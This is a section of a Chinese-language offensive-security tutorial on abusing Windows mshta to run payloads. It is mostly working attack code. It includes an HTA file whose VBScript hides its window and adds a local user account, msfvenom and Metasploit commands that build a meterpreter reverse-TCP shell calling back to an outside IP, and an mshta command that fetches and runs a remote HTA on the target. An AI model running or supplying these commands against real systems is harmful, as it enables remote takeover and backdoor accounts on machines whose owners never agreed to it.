 



### 11.mshta

mshta用于执行`.hta`文件，而hta是`HTML Applocation`的缩写，也就是HTML应用程序。

而hta中也支持VBS。所以我们可以利用hta来下载文件。

**1.生成payload.hta**

run.hta内容如下：

```html
<HTML> 
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <HEAD> 
        <script language="VBScript"> 
            Window.ReSizeTo 0, 0 Window.moveTo -2000,-2000 Set objShell = CreateObject("Wscript.Shell") objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令 self.close 
        </script> 
        <body> demo </body> 
    </HEAD> 
</HTML>
```

或者参考这个文章生成hta:https://www.cnblogs.com/backlion/p/10491616.html

方法1：MSFVenom

```bash
# 先生成payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=121.36.37.235 lport=2222 -f hta-psh > shell.hta


# msf监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit

```

方法2：Metasploit

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit


# 目标上
mshta.exe http://192.168.1.109:8080/pKz4Kk059Nq9.hta
```


